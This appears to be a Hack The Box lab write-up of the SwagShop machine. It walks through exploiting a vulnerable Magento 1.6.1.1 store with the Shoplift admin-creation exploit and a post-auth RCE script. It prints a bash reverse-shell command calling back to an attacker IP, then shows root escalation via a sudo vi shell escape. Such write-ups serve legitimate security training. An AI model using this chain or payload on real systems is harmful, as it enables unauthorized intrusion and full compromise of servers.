








# Hack The Box - SwagShop | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Full Machine &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.229.138` &nbsp;•&nbsp; **Time taken:** 1 hr
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be exploiting today is called SwagShop and it is an easy difficulty Linux machine.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Nmap Scan<br/>SSH + HTTP]:::entry --> B[Magento Store<br/>swagshop.htb]:::entry
    B --> C[Feroxbuster<br/>Directory Enumeration]:::ioc
    B --> D[Config File<br/>Version 1.6.1.1]:::ioc
    C --> E{Foothold}:::mitre
    D --> E
    E --> F[Shoplift Exploit<br/>CVE-2015-1397<br/>Admin Account Creation]:::payload
    F --> G[Admin Dashboard<br/>forme:forme]:::payload
    G --> H[Post-Auth RCE<br/>GitHub Version]:::payload
    H --> I[Reverse Shell<br/>bash -c payload]:::payload
    I --> J[www-data Shell]:::user
    J --> K[User Flag<br/>/home/haris/user.txt]:::user
    J --> L{Privilege Escalation}:::mitre
    L --> M[sudo -l<br/>vi /var/www/html/*]:::ioc
    M --> N[vi Shell Escape<br/>:!bash]:::payload
    N --> O[Root Flag<br/>/root/root.txt]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- Not to always rely on searchsploit, as scripts can be outdated and buggy, so checking GitHub for updated versions is important.
- Using tools like Magescan to enumerate Magento versions and identify vulnerable installations.
- How the Magento Shoplift vulnerability chain (CVE-2015-1397) combines an authentication bypass, SQL injection, and template filter abuse to create admin accounts.
- Abusing `vi` shell escapes for privilege escalation when sudo rules allow running editors as root.

---

## Enumeration

We can start off with an Nmap scan of our target, enumerating all service versions, open ports, and default NSE scripts.

```
nmap -sVC 10.129.229.138
```



*Figure 1 - Nmap scan showing SSH and Apache HTTP with a redirect to swagshop.htb*

We can see that there is an SSH port open as well as a web port redirecting us to swagshop.htb, so we can add this to our `/etc/hosts` and open up swagshop.htb.

---

## Web Enumeration

Seems we have a Magento website. We can now enumerate using Feroxbuster to see if we have anything more useful.



*Figure 2 - Magento storefront at swagshop.htb*

Upon examination of a config file we see that the version is 1.6.1.1, and when we look it up it seems we are able to create an admin account using the Shoplift exploit.



*Figure 3 - Magento version 1.6.1.1 disclosed in config XML, and the Shoplift exploit script from searchsploit*

---

## Foothold - Shoplift Exploit

We tried to get the script to work manually but it didn't work, so we just used the script from searchsploit and added our target and we got access.



*Figure 4 - Shoplift exploit (37977.py) creating admin credentials forme:forme, and the Magento admin dashboard*

---

## Remote Code Execution

After that we tried to upload PHP code but we weren't successful. We remembered there is a post-authorisation RCE script that we downloaded earlier. We can use this, however after we tried a couple of times it didn't work, so we moved on to GitHub to see if there is a better fixed-up version of this code, and we were successful.

https://github.com/Hackhoven/Magento-RCE/tree/1b91c3c25626ee2bd95234717f4af0a5a1c5f64c



*Figure 5 - The GitHub version of the Magento RCE exploit confirming code execution as www-data*

And after editing the script with our required username we get RCE achieved. Now we can put a reverse shell in the command section.

So we started our listener and updated our command. It didn't work originally but when we put `bash -c` in front of it, it seemed to work.

```
python3 magento-rce-exploit.py http://swagshop.htb/index.php/admin/ 'bash -c "bash -i >& /dev/tcp/10.10.15.110/4444 0>&1"'
```



*Figure 6 - Reverse shell caught on the netcat listener as www-data*

---

## Shell Upgrade and User Flag

Now we can upgrade our shell with Python and the stty raw trick.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
```

Now we can see our user flag. We don't need to escalate to haris (the user) as the web app can view the flag.



*Figure 7 - User flag retrieved from /home/haris/user.txt*

---

## Privilege Escalation

We get the following message when we run `sudo -l`:

```
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

So we ran:

```
sudo /usr/bin/vi /var/www/html/api.php
```

And then pressed `:!bash` and we got upgraded to root.

The sudoers rule says you can run `vi` as root without a password, as long as the file path matches `/var/www/html/*`. So you open any file in that directory and you're now running vi as root. Vi has a built-in feature: `:!command` executes a shell command from inside the editor. Since vi itself is running as root, any command you spawn from it also runs as root. So `:!bash` gives you a root shell.



*Figure 8 - Root flag retrieved and SwagShop box completed*
